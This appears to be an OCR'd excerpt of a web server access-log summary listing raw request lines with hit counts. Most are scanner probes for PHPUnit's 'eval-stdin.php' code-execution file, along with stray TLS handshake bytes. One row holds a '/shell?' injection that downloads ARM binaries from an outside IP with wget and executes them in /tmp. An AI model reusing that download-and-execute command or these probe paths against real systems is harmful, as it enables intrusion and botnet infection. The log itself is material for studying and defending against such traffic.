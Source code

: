 | 225 |                     1 | GET /cms/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                   |
| 226 |                     1 | \x16\x03\x03\x00\x8A\x01\x00\x00\x86\x03\x03g\x91\x9C\xB8s\xD7\xD0\xF5b\x98\xD6\xFB3\xD2A]\xA17&\xDD\xEC$\xC5\x88e\x9Dv\xFF\xEB\xAB\x13\xA4\x00\x000\xC0(\x00\x9F\x00\x9E\x00\x9D\x00\x9C\xC0+\xC0#\xC0'\xC0\x14\xC0\x13\x00=\x00<\x005\x00/\xC0,\xC0$\xC0                                                                                                                                                             |
| 227 |                     1 | GET /vendor/phpunit/phpunit/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                           |
| 228 |                     1 | GET /vendor/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                               |
| 229 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03*\xE3\x99&\xA5s\xB3\xDA\xBB\xC3\xC8L\x22\xBF \x0E\xCF\x1C                                                                                                                                                                                                                                                                                                                        |
| 230 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03\x83\x9C9\x97\xA2\xD9\xB4\xCA-\xC6\x10\x99YTY\xB5$\xB5\xC0p\x8A\xCB\xA2\xEC.\x90\xEF\xE5s\xA37\xA1\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                             |
| 231 |                     1 | GET /app/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                   |
| 232 |                     1 | GET /stat HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                     |
| 233 |                     1 | GET /stat HTTP/1.0                                                                                                                                                                                                                                                                                                                                                                                                     |
| 234 |                     1 | GET /status.xsl HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                               |
| 235 |                     1 | \x16\x03\x01\x00\xEE\x01\x00\x00\xEA\x03\x03\xD3/1A#\x920\x00\xCB<\xE9                                                                                                                                                                                                                                                                                                                                                 |
| 236 |                     1 | GET /shell?cd+/tmp;rm+holdarm+hold.arm7;wget+http:/\x5C/193.143.1.66/bins/hold.arm7;chmod+777+hold.arm7;./hold.arm7+hold.jaws;wget+http:/\x5C/193.143.1.66/bins/hold.arm;chmod+777+hold.arm;./hold.arm+hold.jaws HTTP/1.1                                                                                                                                                                                              |
| 237 |                     1 | GET /teststream HTTP/1.0                                                                                                                                                                                                                                                                                                                                                                                               |
